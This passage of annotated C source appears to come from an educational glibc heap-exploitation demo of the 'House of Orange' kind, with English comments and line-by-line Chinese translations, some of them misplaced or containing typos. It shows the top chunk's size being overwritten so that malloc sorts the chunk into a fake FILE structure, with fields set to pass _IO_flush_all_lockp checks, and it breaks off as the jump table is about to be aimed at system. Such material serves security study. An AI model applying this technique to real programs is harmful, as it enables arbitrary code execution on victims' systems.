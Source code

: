 ``` c
      如果我们溢出了旧的 top chunk，我们页控制了它的 size 位。
      Here it gets a little bit tricky, currently the old top chunk is in the
      这里给出一种稍微有趣的方法，现在 old top chunk 还在 unsortedbin list 中。
      unsortedbin list. For each allocation, malloc tries to serve the chunks
      in this list first, therefore, iterates over the list.
      对于每一个申请， malloc 都会试图首先用这个 list 中的 chunk，因此会先遍历一遍这个列表。
      Furthermore, it will sort all non-fitting chunks into the corresponding bins.
      此外，它会将所有没被分配的块分配到相应的 bins 列表中。
      If we set the size to 0x61 (97) (prev_inuse bit has to be set)
      入伏哦我们将 size 设为 0x61，并且触发了未分配的小块的分配方式，malloc 会将旧的 chunk 放在 smallbin-4 中。
      and trigger an non fitting smaller allocation, malloc will sort the old chunk into the
      smallbin-4. Since this bin is currently empty the old top chunk will be the new head,
      因为这个 bin list 现在是空的，旧的 top chunk 是新的首部，因此，会占据 main_arena 中的 smallbin[4] 的位置并最终表示一个伪文件指针的 fd-ptr。
      therefore, occupying the smallbin[4] location in the main_arena and
      eventually representing the fake file pointer's fd-ptr.

      In addition to sorting, malloc will also perform certain size checks on them,
      so after sorting the old top chunk and following the bogus fd pointer
      to _IO_list_all, it will check the corresponding size field, detect
      that the size is smaller than MINSIZE "size <= 2 * SIZE_SZ"
      and finally triggering the abort call that gets our chain rolling.
      除了排序之外，malloc 还会对它们执行一定的大小检查。因此在排序旧的 top chunk 并循着伪造的 fd 指针到 _IO_list_all 后，它会检查相应的大小字段，检测的大小 MINSIZE "size <= 2 * SIZE_SZ" 最终触发中止调用，使我们构造的调用链执行。
      Here is the corresponding code in the libc:
      https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3717
    */

    top[1] = 0x61;
```

``` c
    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813
      现在我们要满足函数 _IO_flush_all_lockp 所需的 fake 文件指针约束并且在这里测试的部分：

      We want to satisfy the first condition:
      我们希望首先满足这个条件：
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    _IO_FILE *fp = (_IO_FILE *) top;

    /*
      1. Set mode to 0: fp->_mode <= 0
      1. 设置模式为 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
      2. 设置 write_base 为 2，write_ptr 为 3：
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /* 
      4) Finally set the jump table to controlled memory and place system there.
```